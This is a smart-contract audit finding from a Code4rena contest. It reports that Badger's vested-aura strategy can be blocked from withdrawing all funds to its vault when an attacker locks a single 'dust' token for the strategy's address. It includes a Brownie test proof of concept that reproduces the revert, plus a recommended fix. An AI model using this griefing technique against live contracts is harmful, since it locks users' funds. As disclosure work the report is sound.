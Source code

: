 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- sponsor confirmed
- valid

# [Withdrawing all funds at once to vault can be DoS attacked by frontrunning and locking dust](https://github.com/code-423n4/2022-06-badger-findings/issues/92) 

# Lines of code

https://github.com/Badger-Finance/vested-aura/blob/d504684e4f9b56660a9e6c6dfb839dcebac3c174/contracts/MyStrategy.sol#L184-L187


# Vulnerability details

## Impact

All funds can be migrated (withdrawn) at once to the caller vault by using the `BaseStrategy.withdrawToVault` function which internally calls `MyStrategy._withdrawAll`.

The latter function has the following check in place:

[MyStrategy.sol#L184-L187](https://github.com/Badger-Finance/vested-aura/blob/d504684e4f9b56660a9e6c6dfb839dcebac3c174/contracts/MyStrategy.sol#L184-L187)

```solidity
require(
    balanceOfPool() == 0 && LOCKER.balanceOf(address(this)) == 0,
    "You have to wait for unlock or have to manually rebalance out of it"
);
```

Funds can only be withdrawn (migrated) if the balance in `LOCKER` is fully unlocked.

By locking a small amount of want tokens via `AuraLocker.lock` with the `strategy` address, a malicious individual can cause DoS and prevent withdrawing and migrating funds to the vault.

## Proof of Concept

The following test case will replicate the DoS attack by locking "dust" want tokens for the `strategy` address. This causes `vault.withdrawToVault` to revert.

```python
def test_frontrun_migration(locker, deployer, vault, strategy, want, governance, keeper):
    # Setup
    randomUser = accounts[6]
    snap = SnapshotManager(vault, strategy, "StrategySnapshot")

    startingBalance = want.balanceOf(deployer)
    depositAmount = startingBalance // 2
    assert startingBalance >= depositAmount
    # End Setup

    # Deposit
    want.approve(vault, MaxUint256, {"from": deployer})
    snap.settDeposit(depositAmount, {"from": deployer})

    chain.sleep(15)
    chain.mine()

    vault.earn({"from": keeper})

    chain.snapshot()

    # Test no harvests
    chain.sleep(86400 * 250)  ## Wait 250 days so we can withdraw later
    chain.mine()

    before = {"settWant": want.balanceOf(vault), "stratWant": strategy.balanceOf()}

    strategy.prepareWithdrawAll({"from": governance})

    want.approve(locker, 1, {"from": deployer})
    locker.lock(strategy, 1, { "from": deployer }) # Donate "dust" want tokens to strategy

    vault.withdrawToVault({"from": governance}) # @audit-info reverts with "You have to wait for unlock or have to manually rebalance"

    after = {"settWant": want.balanceOf(vault), "stratWant": strategy.balanceOf()}

    assert after["settWant"] > before["settWant"]
    assert after["stratWant"] < before["stratWant"]
    assert after["stratWant"] == 0
```

## Tools Used

Manual review

## Recommended mitigation steps

Call `LOCKER.processExpiredLocks(false);` in `MyStrategy._withdrawAll` directly and remove the check which enforces unlocking all want tokens on L184-L187.


